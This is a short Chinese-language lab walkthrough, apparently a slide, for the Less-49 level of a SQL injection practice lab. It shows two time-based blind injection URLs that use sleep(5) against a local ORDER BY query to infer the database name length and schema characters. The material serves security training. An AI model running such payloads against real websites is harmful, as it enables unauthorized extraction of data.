

# Less-49
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
我们直接看源码中的sql语句   SELECT * FROM users ORDER BY ‘1’   这个和less47中的语句是相同的，但是不同的地方在于本关对报错进行了处理，我们无法适用报错回显的形式得到报错注入后的数据，所以我们采用延时注入进行测试
按照less48中的方法，我们进行测试
延时注入
1. http://127.0.0.1/sqli/Less-49/?sort=3’ and  if((  length(database())=1  ),1,sleep(5)) --+ 判断数据库长度
2. http://127.0.0.1/sqli/Less-49/?sort=3’  and  if ( left( (select schema_name from information_schema.schemata limit 0,1) , 1) > ‘a’     ,1,   sleep(5)) --+ 判断数据库中第一个库的第一位的值是否大于a
因为报错之后的回显信息无法显示，所以本关无法采用报错注入的方法。